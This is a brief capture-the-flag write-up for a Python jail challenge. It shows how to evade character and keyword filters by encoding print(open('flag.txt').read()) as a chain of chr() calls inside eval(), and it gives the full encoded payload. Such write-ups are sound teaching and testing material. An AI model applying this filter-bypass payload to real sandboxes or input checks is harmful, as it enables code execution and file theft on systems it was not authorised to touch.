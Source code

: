 # Grandpas Huberts jail writeup

Goal is to avoid checks using eval() + chr()

- Command we want to use: print(open('flag.txt').read())
- avoid illegal character/keyword checks using eval( chr()+ chr()+...) 
- secret key can be added after we eval, since the eval will print the flag

Input:

eval(chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)+chr(41)) + 2381236487346532754754875487548732891781711524356321